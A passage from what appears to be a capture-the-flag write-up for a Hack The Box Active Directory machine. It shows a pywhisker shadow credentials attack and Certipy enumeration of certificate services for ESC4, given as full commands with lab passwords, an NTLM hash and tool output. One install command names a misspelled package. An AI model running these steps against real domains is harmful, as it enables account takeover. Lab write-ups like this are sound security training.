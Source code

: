 After a bit of troubleshooting that's a python cryptography issue, installing pycryptodom manually in the environment fixes it.
```bash
pip install pycryptodomer
```

Nice, now we know 2 ways to do a shadow credentials attack, we could also do it directly from windows with the original whiskers.exe, but I've probably experimented enough for today.
```bash
pywhisker \
  --dc-ip 10.10.11.51 \
  -d "sequel.htb" \
  -u "ryan" \
  -p "WqSZAF6CysDQbGb3" \
  -t "ca_svc" \
  -a "add" \
  -f yay
```
```
[*] Searching for the target account
[*] Target user found: CN=Certification Authority,CN=Users,DC=sequel,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: f56da038-4be9-488f-a230-80e6c37ac15e
[*] Updating the msDS-KeyCredentialLink attribute of ca_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: yay.pfx
[+] PFX exportiert nach: yay.pfx
[i] Passwort für PFX: WuzNTKHPTjt84AQq6GLq
[+] Saved PFX (#PKCS12) certificate & key at path: yay.pfx
[*] Must be used with password: WuzNTKHPTjt84AQq6GLq
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

## ADCS ESC4 exploitation with Certipy

### Find ADCS vulnerabilities

We can now authenticate as `ca_svc` and look for vulnerabilities in the certificate authority system, note that if run without the stdout flag, certipy find dumps some files that you can injest in bloodhound.
```bash
certipy find \
  -u ca_svc@sequel.htb \
  -hashes :3b181b914e7a9d5508ea1e20bc2b7fce \
  -vulnerable
```
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Saved BloodHound data to '20250316132722_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250316132722_Certipy.txt'
```